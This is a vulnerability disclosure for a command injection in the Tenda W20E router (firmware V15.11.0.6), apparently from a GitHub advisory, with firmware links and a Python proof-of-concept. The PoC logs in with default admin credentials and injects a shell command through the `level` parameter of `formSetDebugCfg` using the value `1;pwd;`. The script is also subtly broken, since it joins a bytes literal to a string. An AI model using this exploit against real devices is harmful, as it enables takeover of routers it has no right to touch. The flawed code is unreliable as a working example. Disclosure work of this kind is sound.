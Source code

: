 ## Tenda W20E command injection

### Overview

* Vendor: Tenda

* Product: Tenda W20E
* Version: V15.11.0.6

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/W20E/US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC.zip

### Vulnerability details

Tenda W20E V15.11.0.6 was found to contain a command injection vulnerability in the `formSetDebugCfg` function via the `level` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
import requests

cmd  = 'enable=2'
cmd += '&level='+ '1;pwd;'
cmd += '&module=httpd'

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/formSetDebugCfg/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

